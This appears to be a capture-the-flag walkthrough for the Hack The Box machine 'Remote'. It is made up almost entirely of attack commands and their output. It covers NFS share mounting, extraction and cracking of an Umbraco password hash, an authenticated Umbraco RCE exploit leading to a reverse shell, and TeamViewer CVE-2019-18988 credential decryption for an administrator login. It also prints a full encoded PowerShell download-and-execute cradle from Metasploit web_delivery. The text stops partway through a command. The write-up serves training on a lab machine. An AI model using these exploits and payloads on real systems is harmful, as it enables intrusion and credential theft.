




# Remote

```bash
TARGET=10.10.10.180
```

```bash
$ sudo nmap -p- --min-rate 10000 $TARGET
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-24 09:58 PDT
Warning: 10.10.10.180 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.180
Host is up (0.095s latency).
Not shown: 64056 closed tcp ports (reset), 1463 filtered tcp ports (no-response)
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
111/tcp   open  rpcbind
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
2049/tcp  open  nfs
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49678/tcp open  unknown
49679/tcp open  unknown
49680/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 24.76 seconds
```

```bash
$ sudo nmap -p 21,80,111,135,139,445,2049 -sCV $TARGET
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-24 10:08 PDT
Nmap scan report for 10.10.10.180
Host is up (0.11s latency).

PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp  open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
2049/tcp open  nlockmgr      1-4 (RPC #100021)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: 59m59s
| smb2-time: 
|   date: 2024-05-24T18:09:15
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.55 seconds
```

```bash
$ ftp $TARGET      
Connected to 10.10.10.180.
220 Microsoft FTP Service
Name (10.10.10.180:kali): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
ftp> ls -lha
229 Entering Extended Passive Mode (|||49690|)
125 Data connection already open; Transfer starting.
226 Transfer complete.
ftp> put test.txt
local: test.txt remote: test.txt
229 Entering Extended Passive Mode (|||49692|)
550 Access is denied. 
ftp> ls
229 Entering Extended Passive Mode (|||49693|)
125 Data connection already open; Transfer starting.
226 Transfer complete.
ftp> 
```

```bash
$ mkdir bkp

$ showmount -e $TARGET
Export list for 10.10.10.180:
/site_backups (everyone)

$ sudo mount -t nfs "$TARGET://site_backups" ./bkp

$ ls -lha bkp 
total 123K
drwx------ 2 nobody nogroup 4.0K Feb 23  2020 .
drwxr-xr-x 4 kali   kali    4.0K May 24 10:11 ..
drwx------ 2 nobody nogroup   64 Feb 20  2020 App_Browsers
drwx------ 2 nobody nogroup 4.0K Feb 20  2020 App_Data
drwx------ 2 nobody nogroup 4.0K Feb 20  2020 App_Plugins
drwx------ 2 nobody nogroup   64 Feb 20  2020 aspnet_client
drwx------ 2 nobody nogroup  48K Feb 20  2020 bin
drwx------ 2 nobody nogroup 8.0K Feb 20  2020 Config
drwx------ 2 nobody nogroup   64 Feb 20  2020 css
-rwx------ 1 nobody nogroup  152 Nov  1  2018 default.aspx
-rwx------ 1 nobody nogroup   89 Nov  1  2018 Global.asax
drwx------ 2 nobody nogroup 4.0K Feb 20  2020 Media
drwx------ 2 nobody nogroup   64 Feb 20  2020 scripts
drwx------ 2 nobody nogroup 8.0K Feb 20  2020 Umbraco
drwx------ 2 nobody nogroup 4.0K Feb 20  2020 Umbraco_Client
drwx------ 2 nobody nogroup 4.0K Feb 20  2020 Views
-rwx------ 1 nobody nogroup  28K Feb 19  2020 Web.config
```

```bash
$ cat ./bkp/Web.config | grep -i "<connectionstring" -A2
        <connectionStrings>
                <remove name="umbracoDbDSN" />
                <add name="umbracoDbDSN" connectionString="Data Source=|DataDirectory|\Umbraco.sdf;Flush Interval=1;" providerName="System.Data.SqlServerCe.4.0" />
```

```bash
connectionString="Data Source=|DataDirectory|\Umbraco.sdf;
```

```bash
$ ls -lha ./bkp/App_Data
total 2.0M
drwx------ 2 nobody nogroup 4.0K Feb 20  2020 .
drwx------ 2 nobody nogroup 4.0K Feb 23  2020 ..
drwx------ 2 nobody nogroup   64 Feb 20  2020 cache
drwx------ 2 nobody nogroup 4.0K Feb 20  2020 Logs
drwx------ 2 nobody nogroup 4.0K Feb 20  2020 Models
drwx------ 2 nobody nogroup   64 Feb 20  2020 packages
drwx------ 2 nobody nogroup 4.0K Feb 20  2020 TEMP
-rwx------ 1 nobody nogroup  36K Feb 19  2020 umbraco.config
-rwx------ 1 nobody nogroup 1.9M Feb 19  2020 Umbraco.sdf
```

`.sdf` extension is related to `SQL Server Compact`. No easy way to query it on Linux. Lets try to use `strings`.

```bash
$ strings ./bkp/App_Data/Umbraco.sdf | grep -i password             
...
User "admin" <admin@htb.local>192.168.195.1User "admin" <admin@htb.local>umbraco/user/password/changepassword change
User "SYSTEM" 192.168.195.1User "admin" <admin@htb.local>umbraco/user/saveupdating LastLoginDate, LastPasswordChangeDate, UpdateDate
User "SYSTEM" 192.168.195.1User "admin" <admin@htb.local>umbraco/user/saveupdating LastLoginDate, LastPasswordChangeDate, UpdateDate
User "admin" <admin@htb.local>192.168.195.1User "smith" <smith@htb.local>umbraco/user/saveupdating LastPasswordChangeDate, RawPasswordValue, SecurityStamp, UpdateDate
```

It seems we have a couple of users with `@htb.local` email domain.

```bash
$ strings ./bkp/App_Data/Umbraco.sdf | grep -i @htb.local
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-USfeb1a998-d3bf-406a-b30b-e269d7abdf50
adminadmin@htb.localb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}admin@htb.localen-US82756c26-4321-4d27-b429-1b5c7c4f882f
smithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
ssmithsmith@htb.localjxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts={"hashAlgorithm":"HMACSHA256"}smith@htb.localen-US7e39df83-5e64-4b93-9702-ae257a9b9749
ssmithssmith@htb.local8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA={"hashAlgorithm":"HMACSHA256"}ssmith@htb.localen-US3628acfb-a62c-4ab0-93f7-5ee9724c8d32
...
```

It seems we have password hashaes here.

```bash
admin admin@htb.local b8be16afba8c314ad33d812f22a04991b90e2aaa {"hashAlgorithm":"SHA1"} admin@htb.local en-US feb1a998-d3bf-406a-b30b-e269d7abdf50
admin admin@htb.local b8be16afba8c314ad33d812f22a04991b90e2aaa {"hashAlgorithm":"SHA1"} admin@htb.local en-US 82756c26-4321-4d27-b429-1b5c7c4f882f
smith smith@htb.local jxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts= {"hashAlgorithm":"HMACSHA256"} smith@htb.local en-US 7e39df83-5e64-4b93-9702-ae257a9b9749-a054-27463ae58b8e
ssmith smith@htb.local jxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts= {"hashAlgorithm":"HMACSHA256"} smith@htb.local en-US 7e39df83-5e64-4b93-9702-ae257a9b9749
ssmith ssmith@htb.local 8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA= {"hashAlgorithm":"HMACSHA256"} ssmith@htb.local en-US 3628acfb-a62c-4ab0-93f7-5ee9724c8d32
```

```bash
b8be16afba8c314ad33d812f22a04991b90e2aaa
jxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts=
8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA=
```

```bash
$ cat umbraco.hashes                                          
admin@htb.local:b8be16afba8c314ad33d812f22a04991b90e2aaa
smith@htb.local:jxDUCcruzN8rSRlqnfmvqw==AIKYyl6Fyy29KA3htB/ERiyJUAdpTtFeTpnIk9CiHts=
ssmith@htb.local:8+xXICbPe7m5NQ22HfcGlg==RF9OLinww9rd2PmaKUpLteR6vesD2MtFaBKe1zL5SXA=
```

```bash
$ john --wordlist=/usr/share/wordlists/rockyou.txt umbraco.hashes                         
...
Loaded 1 password hash (Raw-SHA1 [SHA1 512/512 AVX512BW 16x])
...
baconandcheese   (admin@htb.local)     
...
```

[http://10.10.10.180/umbraco](http://10.10.10.180/umbraco)







```bash
$ searchsploit umbraco
--------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                             |  Path
--------------------------------------------------------------------------- ---------------------------------
Umbraco CMS - Remote Command Execution (Metasploit)                        | windows/webapps/19671.rb
Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution                 | aspx/webapps/46153.py
Umbraco CMS 7.12.4 - Remote Code Execution (Authenticated)                 | aspx/webapps/49488.py
Umbraco CMS 8.9.1 - Directory Traversal                                    | aspx/webapps/50241.py
Umbraco CMS SeoChecker Plugin 1.9.2 - Cross-Site Scripting                 | php/webapps/44988.txt
Umbraco v8.14.1 - 'baseUrl' SSRF                                           | aspx/webapps/50462.txt
--------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

```bash
$ searchsploit -m 49488
  Exploit: Umbraco CMS 7.12.4 - Remote Code Execution (Authenticated)
      URL: https://www.exploit-db.com/exploits/49488
     Path: /usr/share/exploitdb/exploits/aspx/webapps/49488.py
    Codes: N/A
 Verified: False
File Type: Python script, ASCII text executable, with very long lines (723)
Copied to: /home/kali/Desktop/HTB/Remote/49488.py
```

```bash
$ python3 49488.py -h
usage: exploit.py [-h] -u USER -p PASS -i URL -c CMD [-a ARGS]

Umbraco authenticated RCE

options:
  -h, --help                 show this help message and exit
  -u USER, --user USER       username / email
  -p PASS, --password PASS   password
  -i URL, --host URL         root URL
  -c CMD, --command CMD      command
  -a ARGS, --arguments ARGS  arguments
```

```bash
$ python3 49488.py -u admin@htb.local -p baconandcheese -i http://$TARGET/ -c whoami
iis apppool\defaultapppool
```

```bash
$ rlwrap -cAr nc -nlvp 9090
listening on [any] 9090 ...
```



```bash
$ python3 49488.py -u admin@htb.local -p baconandcheese -i http://$TARGET/ -c powershell -a '-e JABjAGw...ACgAKQA='
```

```bash
$ rlwrap -cAr nc -nlvp 9090
listening on [any] 9090 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.180] 49702
whoami
iis apppool\defaultapppool
PS C:\windows\system32\inetsrv> 
```

```bash
PS C:\windows\system32\inetsrv> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

```bash
PS C:\Temp> systeminfo
            systeminfo

Host Name:                 REMOTE
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00429-00521-62775-AA801
Original Install Date:     2/19/2020, 4:03:29 PM
System Boot Time:          5/24/2024, 1:33:56 PM
System Manufacturer:       VMware, Inc.
System Model:              VMware7,1
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2295 Mhz
                           [02]: Intel64 Family 6 Model 85 Stepping 7 GenuineIntel ~2295 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.16707776.B64.2008070230, 8/7/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC-05:00) Eastern Time (US & Canada)
Total Physical Memory:     2,047 MB
Available Physical Memory: 1,479 MB
Virtual Memory: Max Size:  2,832 MB
Virtual Memory: Available: 1,613 MB
Virtual Memory: In Use:    1,219 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 4 Hotfix(s) Installed.
                           [01]: KB4534119
                           [02]: KB4516115
                           [03]: KB4523204
                           [04]: KB4464455
Network Card(s):           1 NIC(s) Installed.
                           [01]: vmxnet3 Ethernet Adapter
                                 Connection Name: Ethernet0 2
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.180
                                 [02]: fe80::904e:4e83:299e:2e47
                                 [03]: dead:beef::904e:4e83:299e:2e47
                                 [04]: dead:beef::1b0
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.
```

## CVE-2019-18988

- [CVE-2019-18988](https://github.com/rafamarrara/CTFs/tree/main/Labs/CVE-2019-18988)

```bash
PS C:\> tasklist /svc

Image Name                     PID Services                                    
========================= ======== ============================================
System Idle Process              0 N/A                                         
System                           4 N/A                                         
Registry                        88 N/A                                         
smss.exe                       296 N/A                                         
...                                  
vmtoolsd.exe                  2228 VMTools                                     
svchost.exe                   2236 W32Time                                     
TeamViewer_Service.exe        2248 TeamViewer7                                 
svchost.exe                   2260 W3SVC, WAS                                  
svchost.exe                   2276 LanmanServer                                
...
```

```bash
$ python3 -m http.server 9091
Serving HTTP on 0.0.0.0 port 9091 (http://0.0.0.0:9091/) ...
```

```bash
PS C:\Temp> Invoke-WebRequest -Uri 'http://10.10.14.2:9091/CVE-2019-18988.bat' -OutFile C:\Temp\CVE-2019-18988.bat
```

```bash
$ python3 -m http.server 9091
Serving HTTP on 0.0.0.0 port 9091 (http://0.0.0.0:9091/) ...
10.10.10.180 - - [24/May/2024 22:18:55] "GET /CVE-2019-18988.bat HTTP/1.1" 200 -
```

```bash
PS C:\Temp> C:\Temp\CVE-2019-18988.bat

C:\Temp>REM # CVE-2019-18988 
C:\Temp>REM # Teamviewer Local Privesc 
C:\Temp>REM https://community.teamviewer.com/t5/Announcements/Specification-on-CVE-2019-18988/td-p/82264 

C:\Temp>reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7 /v Version 
HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer\Version7
    Version    REG_SZ    7.0.43148

C:\Temp>reg query HKLM\SOFTWARE\WOW6432Node\TeamViewer\Version7 
HKEY_LOCAL_MACHINE\SOFTWARE\WOW6432Node\TeamViewer\Version7
...
    ClientID    REG_DWORD    0x6972e4aa
    CUse    REG_DWORD    0x1
    LastUpdateCheck    REG_DWORD    0x659d58d6
    UsageEnvironmentBackup    REG_DWORD    0x1
    SecurityPasswordAES    REG_BINARY    FF9B1C73D66BCE31AC413EAE131B464F582F6CE2D1E1F3DA7E8D376B26394E5B
    MultiPwdMgmtIDs    REG_MULTI_SZ    admin
    MultiPwdMgmtPWDs    REG_MULTI_SZ    357BC4C8F33160682B01AE2D1C987C3FE2BAE09455B94A1919C4CD4984593A77
    Security_PasswordStrength    REG_DWORD    0x3
...
```

```bash
$ cat CVE-2019-18988.py| grep 'password = "'
password = "FF9B1C73D66BCE31AC413EAE131B464F582F6CE2D1E1F3DA7E8D376B26394E5B"
```

```bash
$ python3 CVE-2019-18988.py
00000000: 21 00 52 00 33 00 6D 00  30 00 74 00 65 00 21 00  !.R.3.m.0.t.e.!.
00000010: 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  ................
None
!R3m0te!
```

```bash
$ evil-winrm -i $TARGET -u administrator -p '!R3m0te!'
...
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
remote\administrator
```

## CVE-2019-18988 - Metasploit

```bash
$ msfconsole -q                                
msf6 > msf6 > use multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Python
    1   PHP
    2   PSH
    3   Regsvr32
    4   pubprn
    5   SyncAppvPublishingServer
    6   PSH (Binary)
    7   Linux
    8   Mac OS X

msf6 exploit(multi/script/web_delivery) > set target PSH
target => PSH
msf6 exploit(multi/script/web_delivery) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/script/web_delivery) > set lhost tun0
lhost => tun0
msf6 exploit(multi/script/web_delivery) > set srvhost tun0
srvhost => 10.10.14.2
msf6 exploit(multi/script/web_delivery) > options

Module options (exploit/multi/script/web_delivery):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  10.10.14.2       yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0
                                       to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)

Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     tun0             yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   2   PSH

View the full module info with the info, or info -d command.

msf6 exploit(multi/script/web_delivery) >
```

```bash
msf6 exploit(multi/script/web_delivery) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 10.10.14.2:4444 
msf6 exploit(multi/script/web_delivery) > [*] Using URL: http://10.10.14.2:8080/2G2XUQaZ6hZ
[*] Server started.
[*] Run the following command on the target machine:
powershell.exe -nop -w hidden -e WwBOAGUAdAAuAFMAZQByAHYAaQBjAGUAUABvAGkAbgB0AE0AYQBuAGEAZwBlAHIAXQA6ADoAUwBlAGMAdQByAGkAdAB5AFAAcgBvAHQAbwBjAG8AbAA9AFsATgBlAHQALgBTAGUAYwB1AHIAaQB0AHkAUAByAG8AdABvAGMAbwBsAFQAeQBwAGUAXQA6ADoAVABsAHMAMQAyADsAJABuADUAMwBnAFQAPQBuAGUAdwAtAG8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAA7AGkAZgAoAFsAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAFAAcgBvAHgAeQBdADoAOgBHAGUAdABEAGUAZgBhAHUAbAB0AFAAcgBvAHgAeQAoACkALgBhAGQAZAByAGUAcwBzACAALQBuAGUAIAAkAG4AdQBsAGwAKQB7ACQAbgA1ADMAZwBUAC4AcAByAG8AeAB5AD0AWwBOAGUAdAAuAFcAZQBiAFIAZQBxAHUAZQBzAHQAXQA6ADoARwBlAHQAUwB5AHMAdABlAG0AVwBlAGIAUAByAG8AeAB5ACgAKQA7ACQAbgA1ADMAZwBUAC4AUAByAG8AeAB5AC4AQwByAGUAZABlAG4AdABpAGEAbABzAD0AWwBOAGUAdAAuAEMAcgBlAGQAZQBuAHQAaQBhAGwAQwBhAGMAaABlAF0AOgA6AEQAZQBmAGEAdQBsAHQAQwByAGUAZABlAG4AdABpAGEAbABzADsAfQA7AEkARQBYACAAKAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQAwAC4AMQAwAC4AMQA0AC4AMgA6ADgAMAA4ADAALwAyAEcAMgBYAFUAUQBhAFoANgBoAFoALwBJADQATABnAE0AVwBMADUATgBzADIASwBnAGsAJwApACkAOwBJAEUAWAAgACgAKABuAGUAdwAtAG8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4ARABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADIAOgA4ADAAOAAwAC8AMgBHADIAWABVAFEAYQBaADYAaABaACcAKQApADsA
[*] Sending stage (201798 bytes) to 10.10.10.180
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.180:49739) at 2024-05-24 23:23:02 -0700
```

```bash
$ python3 49488.py -u admin@htb.local -p baconandcheese -i http://$TARGET/ -c powershell -a '-nop -w hidden -e WwBOAGUAdAAuAFMAZQByAHYAaQBjAGUAUABvAGkAbgB0AE0AYQBuAGEAZwBlAHIAXQA6ADoAUwBlAGMAdQByAGkAdAB5AFAAcgBvAHQAbwBjAG8AbAA9AFsATgBlAHQALgBTAGUAYwB1AHIAaQB0AHkAUAByAG8AdABvAGMAbwBsAFQAeQBwAGUAXQA6ADoAVABsAHMAMQAyADsAJABuADUAMwBnAFQAPQBuAGUAdwAtAG8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAA7AGkAZgAoAFsAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFcAZQBiAFAAcgBvAHgAeQBdADoAOgBHAGUAdABEAGUAZgBhAHUAbAB0AFAAcgBvAHgAeQAoACkALgBhAGQAZAByAGUAcwBzACAALQBuAGUAIAAkAG4AdQBsAGwAKQB7ACQAbgA1ADMAZwBUAC4AcAByAG8AeAB5AD0AWwBOAGUAdAAuAFcAZQBiAFIAZQBxAHUAZQBzAHQAXQA6ADoARwBlAHQAUwB5AHMAdABlAG0AVwBlAGIAUAByAG8AeAB5ACgAKQA7ACQAbgA1ADMAZwBUAC4AUAByAG8AeAB5AC4AQwByAGUAZABlAG4AdABpAGEAbABzAD0AWwBOAGUAdAAuAEMAcgBlAGQAZQBuAHQAaQBhAGwAQwBhAGMAaABlAF0AOgA6AEQAZQBmAGEAdQBsAHQAQwByAGUAZABlAG4AdABpAGEAbABzADsAfQA7AEk